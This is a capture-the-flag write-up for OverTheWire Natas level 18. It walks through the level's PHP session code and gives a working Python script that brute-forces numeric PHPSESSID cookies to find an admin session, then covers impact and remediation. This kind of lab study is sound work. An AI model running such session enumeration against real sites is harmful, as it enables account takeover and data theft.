

# [Over The Wire (natas)] – [[Platform](http://natas18.natas.labs.overthewire.org/)] – [09/26/2025]

## Objective
Find the password for the next Natas level by exploiting the vulnerability on this page.  

## Environment / Platform
- Platform: OverTheWire – Natas
- Level: [18]
- Difficulty: [Medium]

## Tools Used
- Chromium Browser
- Burp Suite (proxy + repeater)
- Python

## Login
1. Logged in with credentials:
   - **Username**: `natas18
   - **Password**: `XXXXXX`
  
2. Screenshot:
   
   
   - this prompted that I should check the sourcecode by clicking the link `http://natas18.natas.labs.overthewire.org/index-source.html`

3. Observed Page Content
   ```php
      $maxid = 640; // 640 should be enough for everyone

      function isValidAdminLogin() { /* {{{ */
         if($_REQUEST["username"] == "admin") {
         /* This method of authentication appears to be unsafe and has been disabled for now. */
            //return 1;
         }

         return 0;
      }
   ```
   - This function checks if the username key-value is equal to "admin" and simingly does nothing then returns 0. 
  
   ```php
      /* }}} */
      function isValidID($id) { /* {{{ */
         return is_numeric($id);
      }
   ```
   - This functions checks if the input is numeric. 
  

   ```php
      /* }}} */
      function createID($user) { /* {{{ */
         global $maxid;
         return rand(1, $maxid);
      }
      /* }}} */
   ```
   - This function takes in input and returns a random number between one and the maxid globally possible.
  

   ```php
      function debug($msg) { /* {{{ */
         if(array_key_exists("debug", $_GET)) {
            print "DEBUG: $msg<br>";
         }
      }   
   ```
   - This function takes in the input of message and if there is an key value "debug" will print out the message.
  


   ```php
      /* }}} */
      function my_session_start() { /* {{{ */
         if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
            if(!session_start()) {
                  debug("Session start failed");
                  return false;
            } else {
                  debug("Session start ok");
                  if(!array_key_exists("admin", $_SESSION)) {
                  debug("Session was old: admin flag set");
                  $_SESSION["admin"] = 0; // backwards compatible, secure
                  }
                  return true;
            }
         }

         return false;
      } 
   ```
   - This session checks to see if the key 'PHPSESSID" exists within cookie and validates that the value is numeric. If the session doesn't start then sends a debug message stating so, otherwise sends a debug message stating it's ok. Also if the key value of "admin" doesn't exist reports with a debugging message and sets the key "admin" of Session to 0.
  

   ```php
      /* }}} */
      function print_credentials() { /* {{{ */
         if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
            print "You are an admin. The credentials for the next level are:<br>";
            print "<pre>Username: natas19\n";
            print "Password: <censored></pre>";
         } else {
            print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
         }
      }
      /* }}} */
   ```
   - This function checks to see if there is a Session and if session has the key-value of "admin" and if "admin" in session is equal to 1. If everything is true then prints out the flag, otherwise will print that the account is regular and not admin. 

   ```php
      $showform = true;
      if(my_session_start()) {
         print_credentials();
         $showform = false;
      } else {
         if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) {
            session_id(createID($_REQUEST["username"]));
            session_start();
            $_SESSION["admin"] = isValidAdminLogin();
            debug("New session started");
            $showform = false;
            print_credentials();
         }
      }

      if($showform) {
   ```
   - This logic block checks if the session starts and prints credentials and then makes form not visible. Otherwise checks if keys "username" and "password" exists in the request. If so, will create session id and start session. Session key "admin" is set to 0. Debugging message sent, form is hidden, and print credentials. 

---
  

     
4. Steps taken (session-ID enumeration):

   1. The logic is a little convoluted but it hangs on the id sent by the cookie with the key-value being "PHPSESSID" or PHP Session ID. 640 is the maximum so that leaves a small bruteforce attack possible. 

   2. Creating a script that can send GET request using different numerical value of the cookie session id between 0-640. What the request checks is that it doesn't have a response text containing `"You are logged in as a regular user."`. The script will state if interesting or regular with the value submitted.  


   ```python
      import requests
      from requests.auth import HTTPBasicAuth


      def main():
         # --- Configuration ---
         url = "http://natas18.natas.labs.overthewire.org/"
         auth = HTTPBasicAuth("natas18", "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX")  # replace with actual

         headers = {
            "Cache-Control": "max-age=0",
            "Accept-Language": "en-US,en;q=0.9",
            "Upgrade-Insecure-Requests": "1",
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36",
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
            "Accept-Encoding": "gzip, deflate, br",
            "Connection": "keep-alive"
         }

         for i in range(641):
            cookies = {"PHPSESSID": str(i)}
            res = requests.get(url, auth=auth, headers=headers, cookies=cookies)

            if 'You are logged in as a regular user.' not in res.text:
                  print(f"Interesting session: {i}")
                  print(res.text)
            else:
                  print(f"{i} : regular")


      if __name__ == "__main__":
         main()

   ```
   
   3. This produced the flag.
   

---

🔑 **Why this works**: 

   - The application accepts a client-supplied PHPSESSID cookie and treats numeric values as valid session identifiers (isValidID() returns true for numeric IDs).

   - Session IDs are generated with rand(1, $maxid) where $maxid = 640, producing only 640 possible IDs — trivially guessable.

   - The server does not bind a session to a specific authenticated user or regenerate the session ID on login; possession of a valid numeric session ID is enough to get a session.

   - The code sets the admin flag in $_SESSION based solely on that session state, so discovering an admin=1 session immediately grants administrative privileges.

   - Debug output controlled by ?debug may reveal additional internal state (and aids testing/attacks if left enabled in production).

   - There is no rate-limiting or monitoring to detect rapid enumeration of many session IDs, making brute-force practical.

---

💥 **Impact**

   - Full account/session takeover: an attacker who finds a session with admin=1 can act as an admin and retrieve sensitive data (in this case the next level credentials).

   - Privilege escalation: regular users can be impersonated or elevated if sessions with privileged flags are discovered.

   - Information disclosure: the protected secret (natas19 password) is exposed. In a real app this could be passwords, PII, tokens, or admin functionality.

   - Loss of integrity / auditability: actions performed via hijacked sessions will be attributed to the legitimate session owner.

   - Low cost / high success rate: small session space and lack of protections make the attack cheap and fast.

   - Potential for automated mass exploitation if similar logic exists across other endpoints.

---
  
🛠️ **Remediation**

   - Stop using predictable, small numeric session IDs. Use PHP’s built-in session mechanism with strong randomness (default is fine) or generate IDs from a cryptographically secure source (e.g., bin2hex(random_bytes(...))).

   - Remove createID() and do not accept arbitrary client-supplied session IDs; let the server create and manage session IDs. If you must set an ID, ensure it is cryptographically strong and unique.

   - Call session_regenerate_id(true) on login and on privilege changes to prevent fixation and reuse of old IDs.

   - Avoid storing privilege state in easily guessed sessions; validate authentication server-side (e.g., check credentials and map sessions to user records).

   - Harden session cookies: set HttpOnly, Secure, and SameSite attributes, and configure appropriate session.cookie_lifetime and session.gc_maxlifetime.

   - Implement rate-limiting, request throttling, and logging/alerts for unusual patterns (many different session IDs from one IP). Block or slow enumeration attempts.

   - Remove or disable debug output in production and audit any debug endpoints/parameters.

   - Monitor and rotate secrets regularly; if a compromise is detected, invalidate sessions server-side (destroy session store entries) and force password resets if necessary.
